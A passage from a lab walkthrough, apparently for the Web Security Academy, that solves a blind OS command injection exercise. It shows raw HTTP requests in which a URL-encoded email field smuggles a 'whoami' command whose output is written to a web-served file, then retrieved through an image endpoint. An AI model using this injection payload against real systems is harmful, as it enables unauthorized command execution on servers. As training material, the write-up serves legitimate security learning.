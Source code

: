 	Sec-Fetch-Site: same-origin
	X-PwnFox-Color: magenta
	Priority: u=0
	
	csrf=SNExcmSFEI5HlhrXBK2GsamVMqSLoxbC&name=Tester&email=tester%40test.com%26%20whoami%20%3E%20%2Fvar%2Fwww%2Fimages%2Foutput.txt%26&subject=Test&message=Test+message
	```
	
	```
	HTTP/1.1 500 Internal Server Error
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 16
	
	"Could not save"
	```
	
	Despite the error, it is still possible to access the file to solve the lab.
	
	```
	GET /image?filename=output.txt HTTP/1.1
	Host: 0a9b0076038b818e80098ad000df00bf.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Connection: keep-alive
	Cookie: session=WJSRirprxjalGTY0Rt4cRJjhcI1Yeeaf
	Upgrade-Insecure-Requests: 1
	Sec-Fetch-Dest: document
	Sec-Fetch-Mode: navigate
	Sec-Fetch-Site: none
	Sec-Fetch-User: ?1
	X-PwnFox-Color: magenta
	Priority: u=0, i
	
	
	```
	
	```
	HTTP/1.1 200 OK
	Content-Type: text/plain; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 13
	
	peter-5bn1PO
	
	```
	
	Done!
	
	![](../../../../assets/screenshots/command-injection/Pasted%20image%2020250801085732.png)